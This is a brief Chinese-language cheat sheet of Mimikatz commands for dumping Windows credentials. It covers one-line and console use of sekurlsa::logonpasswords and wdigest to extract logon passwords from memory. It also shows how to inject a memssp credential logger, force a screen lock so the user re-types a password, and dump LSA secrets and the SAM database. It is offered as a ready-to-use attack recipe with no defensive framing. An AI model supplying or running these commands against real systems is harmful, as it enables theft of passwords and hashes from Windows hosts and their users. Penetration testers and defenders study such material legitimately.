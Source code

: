  #### 单行命令
	>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt 
 #### 控制台
  	PS C:\temp\mimikatz> .\mimikatz
	mimikatz # privilege::debug
	mimikatz # log
	mimikatz # sekurlsa::logonpasswords
	mimikatz # sekurlsa::wdigest

	>privilege::debug
	>misc::memssp
	锁屏
	>rundll32.exe user32.dll,LockWorkStation
	记录的结果在c:\windows\system32\mimilsa.log
	>mimikatz log "privilege::debug" "lsadump::lsa /patch"
	>mimikatz !privilege::debug 
	>mimikatz !token::elevate 
	>mimikatz !lsadump::sam